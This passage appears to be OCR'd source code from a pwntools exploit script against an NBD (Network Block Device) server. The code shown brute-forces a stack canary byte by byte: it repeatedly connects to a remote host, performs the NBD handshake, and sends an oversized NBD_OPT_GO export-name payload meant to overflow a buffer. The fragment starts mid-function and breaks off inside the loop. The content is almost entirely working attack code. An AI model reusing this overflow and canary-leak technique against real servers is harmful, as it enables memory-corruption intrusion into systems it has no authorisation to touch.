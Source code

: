 ```python
  io.send(p16(0))

  parse_response(io)

def get_canary():
  canary = [0] * 8
  for j in range(8):
    for i in range(1<<8):
      canary[j] = i
      try:
        io = remote(HOST, PORT)

        # start negotiation, first receive the init passwd
        buf = io.recv(8)
        assert(buf == INIT_PASSWD)

        log.info("received INIT_PASSWD")

        # now parse the magic
        magic = u64(io.recv(8), endian="big")
        assert(magic == opts_magic)

        log.success(f"received opts magic {magic:#x}")

        # parse global flags
        gflags = u16(io.recv(2), endian="big")
        log.info(f"global flags are {gflags:#x}")

        cflags = NBD_FLAG_FIXED_NEWSTYLE
        if (gflags & NBD_FLAG_NO_ZEROES):
          cflags |= NBD_FLAG_NO_ZEROES

        # send client flags
        io.send(p32(cflags, endian="big"))

        length = 1032+4+1+j
        payload  = b"A"*1028

        # copy previous values
        for k in range(j):
          payload += p8(canary[k])

        # add current
        payload += p8(canary[j])

        payload += b"D" * (length-4-len(payload))

        namelen  = length

        #payload += b"B" * 8
        #payload += b"C" * ((datasize - 6) - len(payload))
        send_request(NBD_OPT_GO, length, namelen, payload, io)

        header = p64(opts_magic, endian="big") + \
            p32(NBD_OPT_GO, endian="big") + p32(0, endian="big")

        io.send(header)
        io.send(p32(0, endian="big"))
        io.send(p32(0, endian="big"))

        parse_response(io)
        io.close()

```